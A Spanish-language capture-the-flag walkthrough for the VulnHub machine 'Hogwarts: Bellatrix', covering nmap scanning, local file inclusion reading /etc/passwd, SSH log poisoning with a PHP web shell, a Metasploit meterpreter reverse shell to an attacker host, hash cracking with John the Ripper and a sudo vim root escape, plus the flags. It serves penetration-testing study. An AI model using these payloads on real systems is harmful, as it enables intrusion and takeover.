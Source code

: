 <h1 align="center">
<br>
  <img src="https://static.wikia.nocookie.net/esharrypotter/images/1/14/BellatrixLestrange.png/revision/latest?cb=20120917112905" alt="Front-End Checklist" width="200">
  <br>
  Hogwarts: Bellatrix
  <br>
</h1>

<h4 align="center">Maquina creada por <img src="https://img.icons8.com/android/344/twitter.png" alt="Front-End Checklist" width="12">@BertrandLorent9</h4>
<h4 align="center">Aquí puedes descargarte la <a href="https://www.vulnhub.com/entry/hogwarts-bellatrix,609/">página web</a> y ver una descripción de ella</h4>

---

# Índice

- [Recopilación de información](#recopilación-de-información)
  - [Nmap](#nmap)
  - [Web]()
- [Búsqueda de vulnerabilidades](#búsqueda-de-vulnerabilidades)
  - [Web]()
- [Explotación de vulnerabilidades](#explotación-de-vulnerabilidades)
  - [Command Injection]()
  - [SSH Log]()
- [Post-explotación](#post-explotación)
  - [Recopilación de información]()
  - [Movimiento Lateral]()
  - [Búsqueda de vulnerabilidades](#búsqueda-de-vulnerabilidades-1)
       - [SUDO -L]()
  - [Explotación de vulnerabilidades](#explotación-de-vulnerabilidades-1)
       - [SUDO VIM]()
- [Información Adicional](#información-adicional)


---

## Recopilación de información

Aquí veremos que esta conectado a la subred, los puerto abiertos, las paginas web, etc.

### Nmap

Veremos que redes estan conectadas a esta subred con este comando:

```nmap -sP 192.168.221.0/24```

Para ver los puertos abiertos que tiene la red utilizaremos este comando:

```nmap -sV -sC 192.168.221.6```

### Web

Esta es la página web que hemos encontrao, como vemos tiene un .php escondido:

<img src="https://i.gyazo.com/92dbe9567d0231df1554eeb910b3fe4d.png">


## Búsqueda de vulnerabilidades

### Web

Si usamos en mi caso **Ctrl+U** para ver el codigo fuente podemos encontrar una funcion get y un texto:

<img src="https://i.gyazo.com/1e1d112e282227f71c083812fea4911f.png">

## Explotación de vulnerabilidades

### Command Injection

Ahora explotaremos la vulnerabilidad de la funcion get añadiendole ```?file=```

<img src="https://i.gyazo.com/bf0399383f893584784b37dfe41fefc9.png">

> Imagen de command injection con /etc/passwd

### SSH Log

Gracias a esta [página web](https://www.hackingarticles.in/rce-with-lfi-and-ssh-log-poisoning/) consegui tener privilegios de user.

Lo primero que haremos es leer el archivo ```/var/log/auth.log``` para ver si los logins fallan o aciertan en la conexión con el servidor web.

Procederemos ha poner un **codigo malicioso con php** en la conexion ssh para poder ejecutar comandos del sistema como si fuese el cmd o la terminal:

```ssh '<?php system($_GET['c']); ?>'@192.168.221.6```

Lo siguiente es añadir a la url ```?file=/var/log/auth.log&c=``` para poder ejecutar comandos.

Ahora explotaremos la vulnerabilidad para ser user.

Lo primero iremos al metasploit y seguiremos estos comandos para crear u nscript y conseguir ser user.
```
use exploit/multi/script/web_delivery
msf exploit (web_delivery)> set payload php/meterpreter/reverse_tcp
msf exploit (web_delivery)> set lhost 192.168.1.123
msf exploit (web_delivery)>set srvport 8081
msf exploit (web_delivery)>exploit
```
Esto no creara un payload que meteremos en la url escrita anteriormente y nos crara un session en meterpreter.

Por ahora somos usuario **bellatrix**

## Post-explotación

Aquí tenemos la primera flag: **user: {69e0f71f25ece4351e4d73af430bec43}**

## Recopilación de información

Volveemos a recopilar toda la informacion possible que podamos encontrar.

En la carpeta ```/var/www/html/``` encontramos una carpeta muy peculiar iremos a ella para ver que contiene:

La carpeta se llama ```c2VjcmV0cw==``` que significa en base64 **secrets**

En esta carpeta procederemos ha hacer el comando ```ls -a``` para ver toanto como los archivos ocultos como los que estan a la vista.

Podemos ver que hay un archivo llamado ```Swordofgryffindor``` y otro ```.secret.dic```.

Dentro del archivo ```Swordofgryffindor``` encontramos esto:
```
lestrange:$6$1eIjsdebFF9/rsXH$NajEfDYUP7p/sqHdyOIFwNnltiRPwIU0L14a8zyQIdRUlAomDNrnRjTPN5Y/WirDnwMn698kIA5CV8NLdyGiY0
```
Y en el ```.secret.dic``` podemos ver que es un diccionario.

## Movimiento Lateral

Lo que procedemos ha hacer es crackear ese hash encontrado anteriormente y pasarle el diccionario tambien encontrado antes.

Utilizaremos el [John the Ripper]https://www.openwall.com/john/) para crackearlo:
```john --wordlist=hp.dic hash```

> **hp.dic** es el diccionario y **hash** es el hash

Actualmente somos usuario **lestrange**

## Búsqueda de vulnerabilidades

### SUDO -L

Para ver que puede ejecutar este usuario como root usaremos el comando ```sudo -l```

El resultado es este:
```
(ALL : ALL) NOPASSWD: /usr/bin/vim
```

## Explotación de vulnerabilidades

### SUDO VIM

Al ver esto iremos a esta [página web]https://gtfobins.github.io/gtfobins/vim/#sudo) para ver como podemos explotar esta vulnerabilidad y ser **root**

Encontramos un payload que no ayudara a escalar privilegios:

```sudo /usr/bin/vim -c ':!/bin/sh'```

Gracias a esto conseguirmos ser **root**

Y aquí tenemos la segunda flag:
```
 ____       _ _       _        _
 |  _ \     | | |     | |      (_)
 | |_) | ___| | | __ _| |_ _ __ ___  __
 |  _ < / _ \ | |/ _` | __| '__| \ \/ /
 | |_) |  __/ | | (_| | |_| |  | |>  <
 |____/ \___|_|_|\__,_|\__|_|  |_/_/\_\




  _               _
 | |             | |
 | |     ___  ___| |_ _ __ __ _ _ __   __ _  ___
 | |    / _ \/ __| __| '__/ _` | '_ \ / _` |/ _ \
 | |___|  __/\__ \ |_| | | (_| | | | | (_| |  __/
 |______\___||___/\__|_|  \__,_|_| |_|\__, |\___|
                                       __/ |
                                      |___/



root{ead5a85a11ba466011fced308d460a76}
```
## Información Adicional

Páginas web utilizadas:

- [RCE SSH LOG](https://www.hackingarticles.in/rce-with-lfi-and-ssh-log-poisoning/) - Ejecucion de codigo remoto con Local File Inclusion y envenenamiento del SSH Log.

- [John the Ripper](https://www.openwall.com/john/) - Crackear contraseñas con un diccionario.

- [VIM](https://gtfobins.github.io/gtfobins/vim/#sudo) - Enumeración de escalada de privilegios.


**[⬆ back to top](#-----hogwarts-dobby-)**
